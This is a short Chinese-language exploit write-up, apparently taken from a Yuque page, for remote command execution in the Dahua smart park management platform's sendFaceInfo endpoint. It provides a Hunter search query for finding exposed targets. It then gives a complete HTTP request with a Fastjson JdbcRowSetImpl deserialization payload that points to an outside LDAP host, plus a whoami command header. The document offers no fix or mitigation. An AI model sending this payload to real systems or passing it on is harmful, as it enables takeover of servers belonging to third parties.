# 大华智慧园区综合管理平台sendFaceInfo 远程命令执行

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台sendFaceInfo远程命令执行，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/gH4aRxv7rmMOuKxg/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-893238.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/gH4aRxv7rmMOuKxg/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-993966.png)

# 四、漏洞复现
```plain
POST /CardSolution/card/face/sendFaceInfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Length: 216
Accept-Encoding: gzip
Connection: close
Content-Type: application/json
Testcmd: whoami

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://qq6t3h.dnslog.cn","autoCommit":true}}}
```

![1707099788399-a0b536ac-88d2-493d-a289-b56a16136cbc.png](./img/gH4aRxv7rmMOuKxg/1707099788399-a0b536ac-88d2-493d-a289-b56a16136cbc-500956.png)

![1707099808913-cbbd7047-d6c8-459b-8ce5-66e093aa3b3d.png](./img/gH4aRxv7rmMOuKxg/1707099808913-cbbd7047-d6c8-459b-8ce5-66e093aa3b3d-109428.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ggwqu2ux26v8ogez>